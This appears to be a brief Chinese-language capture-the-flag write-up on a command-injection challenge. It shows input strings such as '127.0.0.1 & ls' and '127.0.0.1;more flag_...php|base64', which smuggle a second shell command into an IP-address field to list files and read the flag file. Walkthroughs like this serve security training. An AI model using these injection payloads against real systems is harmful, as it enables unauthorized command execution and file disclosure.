



```sql
127.0.0.1 & ls
//首先找出文件名
```



```sql
多条显示命令都可以
127.0.0.1;more flag_153131129926766.php|base64
127.0.0.1;less flag_153131129926766.php|base64
//查询flag.php文件里的内容
```




得出base64加密后的内容，使用base64解码工具得出flag
